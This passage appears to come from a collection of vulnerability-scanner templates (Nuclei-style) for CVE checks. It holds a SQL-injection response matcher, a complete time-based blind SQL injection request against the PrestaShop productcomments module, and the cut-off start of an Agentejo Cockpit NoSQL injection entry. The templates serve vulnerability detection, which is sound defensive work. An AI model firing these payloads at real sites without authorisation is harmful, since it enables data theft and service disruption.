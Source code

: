### Matchers

**Type - word**
- part - body
- words
    1. SQL STATEMENT:
    2. <TD>UPDATE login_authentication SET FAILED_LOGIN=FAILED_LOGIN+1 WHERE UPPER(USERNAME)=UPPER(NULL)or`1`=`1`;-- -')</TD>
- condition - and

**Type - word**
- part - header
- words
    1. text/html
- condition - and

**Type - status**
- status
    1. 200

---
# PrestaShop ProductComments < 4.2.0 - SQL Injection
## Description
- In the PrestaShop module "productcomments" before version 4.2.1, an attacker can use a Blind SQL injection to retrieve data or stop the MySQL service. The problem is fixed in 4.2.1 of the module.

- severity - high
- tags - cve,cve2020,sqli,prestshop,packetstorm
## Requests
### Step - 1
```
@timeout: 20s
GET /index.php?fc=module&module=productcomments&controller=CommentGrade&id_products%5B%5D=(select*from(select(sleep(6)))a) HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - dsl**
- dsl
    1. duration>=6
    2. status_code == 200
    3. contains(content_type, "application/json")
    4. contains(body, "average_grade")
- condition - and

---
# Agentejo Cockpit <0.11.2 - NoSQL Injection
## Description
- Agentejo Cockpit before 0.11.2 allows NoSQL injection via the Controller/Auth.php resetpassword function of the Auth controller.
- severity - critical
- tags - cve,cve2020,nosqli,sqli,cockpit,injection
## Requests
- Method - POST
- Method - POST